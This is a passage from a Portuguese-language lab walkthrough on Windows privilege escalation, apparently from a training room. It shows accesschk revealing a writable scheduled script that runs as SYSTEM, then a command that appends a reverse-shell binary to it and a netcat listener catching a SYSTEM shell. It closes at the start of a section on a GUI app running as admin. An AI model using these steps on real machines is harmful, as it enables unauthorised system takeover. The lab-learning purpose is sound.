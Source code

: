 O script estar sendo executado como SYSTEM a cada minuto. Usando `accesschk.exe`, observe que podemos gravar neste arquivo:

```powershell
PS C:\PrivEsc> C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
 FILE_ADD_FILE
 FILE_ADD_SUBDIRECTORY
 FILE_APPEND_DATA
 FILE_EXECUTE
 FILE_LIST_DIRECTORY
 FILE_READ_ATTRIBUTES
 FILE_READ_DATA
 FILE_READ_EA
 FILE_TRAVERSE
 FILE_WRITE_ATTRIBUTES
 FILE_WRITE_DATA
 FILE_WRITE_EA
 DELETE
 SYNCHRONIZE
 READ_CONTROL
```

Então vamos escrever nosso payload no arquivo `C:\DevTools\CleanUp.ps1` utilizando o comando `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1` e esperar por uma conexão reversa:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:29:11
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.244.78] 49816
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

E para concluir esse topico vamos clicar no botão `Completed`.

---

## **<a id="14"> • Insecure GUI Apps</a>**

Na Area de Trabalho temos um arquivo chamado `AdminPaint`. Ao abrir ele e veridicar seu processo vemos que ele esta sendo executado como `admin`:

```powershell
PS C:\Users\user\Desktop> tasklist /V | findstr mspaint.exe
mspaint.exe                    384 RDP-Tcp#0                  2     29,272 K Running         WIN-QBA94KB3IOF\admin                                   0:00:00 Untitled - Paint 
```
